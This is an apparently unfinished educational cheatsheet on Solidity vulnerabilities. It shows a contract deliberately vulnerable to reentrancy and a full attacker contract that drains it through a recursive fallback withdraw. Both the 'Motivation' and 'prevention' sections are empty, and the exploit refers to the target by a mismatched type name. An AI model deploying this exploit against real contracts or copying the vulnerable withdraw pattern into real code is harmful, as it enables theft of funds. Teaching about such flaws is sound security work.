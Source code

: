 # Common vulnerabilities in Ethereum and EVM based chains

Solidity cheatsheet is available in [solidity-cheatsheet](/README.md).

## Table of contents

- [Common vulnerabilities in Ethereum and EVM based chains](#common-vulnerabilities-in-ethereum-and-evm-based-chains)
  * [Table of contents](#table-of-contents)
  * [Motivation](#motivation)
  * [Reentrancy](#reentrancy)
    + [Examples](#reentrancy-example)
    + [How to prevent reentrancy attacks](#how-to-prevent-reentrancy-attacks)
  * [Arithmetic overflows and underflows](#arithmetic-overflows-and-underflows)

### Motivation

TBD

### Reentrancy

Computer scientists say that a procedure is re-entrant if its execution can be interrupted in the middle, initiated over (re-entered), and both runs can complete without any errors in execution. In the context of Ethereum smart contracts, re-entrancy can lead to serious vulnerabilities. 

The most famous example of this was the DAO Hack, where $70million worth of Ether was siphoned off.

### Reentrancy example
```solidity
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result, bytes memory data) = msg.sender.call.value(_amount)("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  fallback() external payable {}
}
```

The above smart contract can be exploited using a simple reentrancy attack. Example below:
```solidity
pragma solidity ^0.6.0;

contract Exploiter {
    address private owner;
    address payable vault = <address of the exploited contract>;
    Reentrancy exploited = Reentrancy(<address of the exploited contract>);
    
    constructor() public payable{
        owner = msg.sender;
    }
    
    modifier onlyOwner {
        require(msg.sender == owner, "Only owner: operation not allowed");
        _;
    }
    
    function deposit() public onlyOwner {
        exploited.donate{value: 1 ether}(address(this));
    }
    
    function attack() public onlyOwner {
        exploited.withdraw(0.5 ether);
    }
    
    function selfkill() public onlyOwner {
        selfdestruct(payable(owner));
    }
    
    fallback() external payable {
        if ( vault.balance > 0 ){
            exploited.withdraw(0.5 ether);
        }
    }
}
```
### How to prevent Reentrancy attacks:



